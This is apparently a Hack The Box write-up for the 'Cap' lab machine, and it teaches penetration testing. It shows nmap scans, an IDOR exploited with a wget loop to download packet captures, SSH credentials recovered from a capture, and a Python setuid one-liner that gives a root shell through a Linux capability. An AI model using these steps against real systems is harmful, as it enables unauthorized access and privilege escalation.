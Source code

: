 # [Cap](https://app.hackthebox.com/machines/Cap)


```bash
nmap -p- --min-rate 10000 10.10.10.245 -Pn 
```

![Alt text](img/image.png)

After discovering open ports, let's do greater scan for this ports.


```bash
nmap -A -sC -sV -p21,22,80 10.10.10.245
```

![Alt text](img/image-8.png)


While surfing on application, I found `IDOR` (Insecure Direct Object Reference) that I can see other data ids which I want.

![Alt text](img/image-1.png)


Let's change `2` into `1`.

![Alt text](img/image-2.png)


Now, it's time to get all data via this `id`s. For this, I will run such Bash script.
```bash
for i in {0..500}; do 
  wget 10.10.10.245/download/${i} -O pcaps/${i}.pcap 2>/dev/null || break; 
done;
```

From here, I just open `0.pcap` file to analyze.

username: nathan

![Alt text](img/image-3.png)


password: Buck3tH4TF0RM3!

![Alt text](img/image-4.png)



Let's login into machine via `ssh` by using these credentials.

user.txt

![Alt text](img/image-5.png)


Let's analyze **capabilities** via this cmdlet `getcap -r / 2>/dev/null`.

![Alt text](img/image-6.png)


I take exploit for `python` from this [blog](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#exploitation-example)

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash");'
```

root.txt

![Alt text](img/image-7.png)